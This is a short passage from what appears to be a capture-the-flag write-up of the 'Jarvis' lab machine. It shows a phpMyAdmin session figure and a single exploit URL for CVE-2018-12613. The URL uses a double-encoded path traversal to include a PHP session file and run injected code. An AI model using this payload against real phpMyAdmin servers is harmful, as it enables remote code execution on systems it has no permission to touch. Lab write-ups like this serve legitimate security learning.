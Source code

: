 ![CVE-2018-12613 Setp 2.](/wp-content/uploads/2019/07/jarvis/if3.png)
**Figure 6:** phpMyAdmin session.

Now that the session variable is known we navigate to the url in order to execute our php code.

```
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_rgaqjb5lk26btifbs4alv75bj4hm1ljj
```
